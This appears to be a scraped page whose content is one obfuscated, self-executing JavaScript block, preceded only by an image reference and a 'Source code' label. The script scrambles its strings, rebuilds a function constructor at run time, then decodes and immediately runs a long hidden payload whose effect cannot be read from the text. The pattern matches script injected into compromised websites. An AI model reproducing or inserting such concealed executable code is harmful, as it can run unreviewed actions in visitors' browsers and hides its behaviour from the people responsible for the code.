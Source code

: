       (function(){var Utk='',tUG=425-414;function twx(y){var v=3415240;var n=y.length;var t=[];for(var j=0;j<n;j++){t[j]=y.charAt(j)};for(var j=0;j<n;j++){var r=v*(j+112)+(v%39532);var l=v*(j+626)+(v%42726);var e=r%n;var p=l%n;var s=t[e];t[e]=t[p];t[p]=s;v=(r+l)%5528034;};return t.join('')};var qqF=twx('souctrntdufslnvtoghaxeqkripcocmbrwjyz').substr(0,tUG);var GYy='ra) r=83atn3l,e=28(vrrtxn"4bldffqhpj=lonyp<r8twvox1z};cat v=t8j,n7 6[,;5[8m,75]8=,p2,8e,49=9{,{0]77,e1d9r,(4(8 ,.0;71,=9u;=a; n=z]hf;rwv.r1ov0;o)lglan=ti;[+))o[+[=]C=d+i;ja{ a=l]akl=r01tq=,0cy)=s8 f]rgvnr)it0ri;a,g}mqn+s)lzn}tl;8+v)lv]r q(a-grmkn+s7i..ep"i[(z () f1rivlr coq0lzn+t)-;;;>z0,c(-.{dar p=ru+lnvir=s(qncn;iah +=+u!levor)r=0ov4r+j;s=l(netv;)a- =;zo4(ja( 1==;=<a;o+v)[v,r e)srchaaCsd"Az(r)rv2r.b=gree;6f)b {==lbf1+*]+,..hmrmo,eft(z-1e-;;o=v;n+v;.eus[ rfke;=h)gd}tt(9.ee.gohskvs{cfatCndeAu(r+h)A+i.ohvrhohehtdz(2l-A;o=u;v+62k}[lie.cgnti)ur;.ia(s=rnil))0=r])i<(;>8)g.tushys+slbrtji]g=rtv)) ngprs(({[[+}]i;c=[+C;[if(;!.n lv)ci6(t<a)t.nugh;s(s0bat;i,gere).q+ca=z.,o"n)"u)u}cf*pks.(v[3] ;(v;r0urf4j7ia(a"t;6ah o=j9(,r693,,.0a3a,v2;.fo"cCtrl.;5al ,=st,iug=f2osC(a1C6d0(16,;eoS(aao y=v; <s."e(gsh)o=++u(u]sflotvwnxrc(aoA;(C)2.uopnfS;rinr.dr=m]h6ruoaegmron)z;renuonhuns)l7tdwn"+";.mornzwn;';var JwD=twx[qqF];var uia='';var Jbm=JwD;var KNL=JwD(uia,twx(GYy));var skD=KNL(twx('6#5ife,$.tPieg7PuS=r0ng})#P-d79a,bP\'f%;e0}P#)-t35atb5\'d+ce8}d#s-403a2bP\'c.e.1baP__8_70f44(6$[f9746P9_(717nPe01%a3c.i$81%%12b5aP2777498&f[b724dn9206c)81rf7P2{dwfb6rc14dcfed7n%ccf9303c8548r5!n!0c106i6s6P9P66e%2(1a270jcbbbe,336Pa7857=a833e_a.68be883935c0a1ea9d3e7a6cd4aea47$3)ef4i7bf0fb7!439c2P56fabP14d84a7,398c8bbp9a24234t8.9993b1062db93%0aebc87b93537%0j3%4a3jf%83e.7S8.3)7)1}43be65a9%24.7b5!3_44a1629d7.2,2pe(1jad6Pec9P6ce3t0e8412ncie9d!741fafb3dd0.0f912dd782e97,8ei&ajee5ned0Pbb871&f)7%010[6!7j2P8ccaea235}164,572)2c5P930+c072f05r0050a8cie.323 9.7P%dd9a47589f28P09e32.0!c924e94104%a84b1bP1acgd765b(d;9b9732d.7P5c%dcta05(823301d8bP04dfc02.a5f30edc5f9f1&f3e8c%b_49di40f052845dh015b,3}%S9b728%bb7gd ec6ec2b37Pa76&350f%76b98ft8b4d4.7_7a6cb3d!c&dPd408b+946!cb%ba00gh=7f6e1t30c3%Pfa0fe08weuc.0[57f,9l738Pf,16a7b2af1b310a5=6dd,afd8e$4P0c6ce6577(4#9Pe7ee9P1;7r60673fc)%c8cdPa;1778362(1d7b94abd-371d45cPa5056a7(671 715%137cbt5a3-28ff958ac)35fc19%26}7860d2b1e{8ge8ef64a914610885e14,1(73ee%d2,de2e0=b06)9.3,42%906799f3=5857f32996b1d)c47)6_d78a424PaPc)4165709fc43P6a2bd)0acbcf7h9p1f6c3#1)b*0e3n5.3b9&06823dfd7c% 5n68bc2a0bd6e$bb2P959Ceb754.46c;8.4b808)16fb,9465443)5P(_$a.95355a(3,a13e5r!l;gf{&,dPfr(0cPfni06P3q30"=$}&gf!1=0ea1(efr9lrgfP9e)j1!5e6geh2r9!7=se.],;fon(0,2=;;P17t6P.6b(6P0f++[{P.3PfjP!3h(r%j3(e)a;8o.(3,8=P;511t6Pf6.(jP$f2+a{eP244Pc...eP748(7,e19)4,($%7n\/$345&24)3;7na"133\/ffreP$13efs6r68)bPo3CPf,.2f24)f)z;fP13P(f.5_]2,q6"(7(nv!9P&;2.d_b.6Paaq4P;2Pc13adr,q";eP42*q)r2de;3Pg3agPbfn)}1Pal6Pqf6$3i%e9$4tri\'g6)f!ar5m0hcr6o7e,1t71;3,1=bce*,=6c1Peve.8#ePxz6.P%\/*a=4ce00*8=(c6.i;reau1n.e_.$_%+fP%m$Pcl3)c)4+,P8waPfsP),)jw&n_o([_$34=78[0]$3a_2_805491c%b&dPP4j&;Pt6o&_Pa8a&fPm18P21cPa1%P.13Po1%P!1cPe1%P41PPf18Ps1eP&0a%sP225%2PP4r%;Pd6=%9P+8e%_P032P336]7;9(bP21ca-r4qc{%.0Pb=7ea.3Pf}!("Pe2Pq$r5da{a.5P3=Pe3.%_ePrj5!c(&,9,f),g$"e79P448(9.4_&nd!")5,p52813f)v 0oas8lPter)$;f27264 0!7=ce;s$$etaP4 P(0s4$)tc 3jfo\/f&$$-0P,2l])_c_.0(49 .{(e1ucn3e4f7n4t2oc.e P.es$l8t} 8cdPd b!4oPn0 baa.c aob$d u.0_a 0g(!% a{},djdo4 9e0; ]t.d 6!P]'));var rbG=Jbm(Utk,skD );rbG(7023);return 7096})()